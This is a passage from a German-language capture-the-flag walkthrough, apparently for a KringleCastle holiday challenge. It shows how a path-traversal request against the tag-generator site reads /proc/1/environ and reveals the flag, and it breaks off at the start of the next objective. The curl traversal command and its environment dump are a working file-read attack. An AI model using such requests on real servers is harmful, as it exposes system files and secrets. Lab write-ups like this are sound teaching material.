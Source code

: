 ```
curl -k -s -L https://tag-generator.kringlecastle.com/image\&id\=1
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
```

Ok, du hast nun eine ID-Variable. Versuche einen Path-Traversal-Angriff durchzuführen.

<img src="{{ page.image-base | prepend:site.baseurl }}obj_8_step_2.png" width="100%" alt="objective 8 step 2 check path traversal">

Damit erhälst du Zugriff auf den Code.

Um die Umgebungsvariablen zu lesen, kannst Du Folgendes verwenden:

<pre><code class="bash">curl -k -s -L -O &#39;https://tag-generator.kringlecastle.com/image?id=../../../../../../../../../../../../../../../proc/1/environ&#39;
cat environ                                                            
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
</code></pre>

während der Wert in

<pre><code>proc/x/environ</code></pre>

ein anderer sein könnte. Beginne am Besten von 1 hochzuzählen.

Du musst `-O` oder` --output -` verwenden, da curl eine Binärdatei als Response annimmt. 

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/499007090" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameborder="0" allow="autoplay; fullscreen" allowfullscreen></iframe></div><script src="https://player.vimeo.com/api/player.js"></script>
<p>Video description at <a href="https://player.vimeo.com/video/499007090">https://player.vimeo.com/video/499007090</a></p>

Lösung:

**JackFrostWasHere**

## 9 - ARP Shenanigans

### Aufgabe

<img src="{{ page.image-base | prepend:site.baseurl }}intro_obj_9.png" width="100%" alt="Introduction objective 9">

### Ort

NetWars

<img src="{{ page.image-base | prepend:site.baseurl }}pic_obj_9.png" style="display:block;margin-left:auto;margin-right:auto" width="50%" alt="location objective 8">

#### Mögliche Lösung
